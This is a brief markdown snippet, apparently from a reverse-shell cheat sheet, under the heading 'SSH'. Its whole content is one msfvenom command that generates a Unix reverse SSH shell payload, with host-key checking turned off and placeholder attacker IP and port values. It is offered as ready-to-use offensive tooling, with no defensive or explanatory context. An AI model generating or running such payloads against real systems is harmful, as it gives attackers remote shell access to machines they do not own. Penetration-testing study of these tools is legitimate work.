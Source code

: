 # SSH

## 01 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_ssh shellpath=/bin/sh [sshpath=/path/to/ssh] sshclientoptions="UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" lhost=<IP> lport=<PORT>
```